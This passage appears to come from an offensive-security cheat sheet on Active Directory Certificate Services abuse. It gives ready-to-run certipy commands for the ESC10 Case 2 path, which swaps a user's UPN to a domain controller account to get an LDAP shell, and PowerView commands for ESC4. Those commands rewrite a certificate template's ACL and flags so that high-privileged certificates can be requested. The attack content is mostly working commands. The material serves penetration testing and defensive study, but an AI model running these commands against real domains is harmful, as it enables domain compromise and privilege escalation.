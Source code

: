 **ESC10 - Case 2**

Here, **user1** has `GenericWrite` against **user2** and want to compromise the domain controller **DC$@contoso.local**.

```bash
#Retrieve user2 creds via Shadow Credentials
certipy shadow auto -username 'user1@contoso.local' -p 'password' -account user2
#Change user2 UPN to DC$@contoso.local
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn 'DC$@contoso.local'
#Request authentication certif with user2
certipy req -username 'user2@contoso.local' -hash 'hash_value' -ca 'ca_name' -template 'User'
#user2 UPN change back
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user2@contoso.local
#Authenticate through Schannel to realise a RBCD in a LDAP shell
certipy auth -pfx dc.pfx -dc-ip 'DC_IP' -ldap-shell
```

## Access Controls Attacks - ESC4, 5, 7

### ESC4 : Sufficient rights against a template

* [https://github.com/daem0nc0re/Abusing\_Weak\_ACL\_on\_Certificate\_Templates](https://github.com/daem0nc0re/Abusing\_Weak\_ACL\_on\_Certificate\_Templates)
* [https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks#esc4](https://http418infosec.com/ad-cs-the-certified-pre-owned-attacks#esc4)

1. Get Enrollment rights for the vulnerable template
2. Disable `PEND_ALL_REQUESTS` flag in `mspki-enrollment-flag` for disabling Manager Approval
3. Set `mspki-ra-signature` attribute to `0` for disabling Authorized Signature requirement
4. Enable `ENROLLEE_SUPPLIES_SUBJECT` flag in `mspki-certificate-name-flag` for specifying high privileged account name as a SAN
5. Set `mspki-certificate-application-policy` to a certificate purpose for authentication
   * Client Authentication (OID: `1.3.6.1.5.5.7.3.2`)
   * Smart Card Logon (OID: `1.3.6.1.4.1.311.20.2.2`)
   * PKINIT Client Authentication (OID: `1.3.6.1.5.2.3.4`)
   * Any Purpose (OID: `2.5.29.37.0`)
   * No EKU
6. Request a high privileged certificate for authentication and perform Pass-The-Ticket attack

#### Windows

```powershell
# Add Certificate-Enrollment rights
Add-DomainObjectAcl -TargetIdentity templateName -PrincipalIdentity "Domain Users" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=contoso,DC=local" -Verbose

# Disabling Manager Approval Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity tempalteName -XOR @{'mspki-enrollment-flag'=2} -Verbose

# Disabling Authorized Signature Requirement
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-ra-signature'=0} -Verbose

# Enabling SAN Specification
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -XOR @{'mspki-certificate-name-flag'=1} -Verbose

# Editting Certificate Application Policy Extension
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity templateName -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose
```